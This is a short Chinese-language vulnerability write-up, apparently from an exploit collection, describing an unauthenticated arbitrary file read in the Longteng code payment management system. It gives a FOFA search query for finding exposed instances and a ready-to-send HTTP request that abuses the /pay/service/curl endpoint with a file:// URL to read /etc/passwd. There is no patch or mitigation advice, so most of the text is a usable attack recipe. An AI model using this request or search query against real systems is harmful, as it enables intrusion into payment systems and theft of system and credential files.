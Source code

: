 # 龙腾码支付payservicecurl任意文件读取

# 一、漏洞简介
龙腾码支付管理系统存在未授权的任意文件读取漏洞

# 二、影响版本
+ 龙腾码支付

# 三、资产测绘
+ fofa`body="/epaydoc/epaydoc.php"`

# 四、漏洞复现
```plain
GET /pay/service/curl?url=file:///etc/passwd HTTP/1.1
```
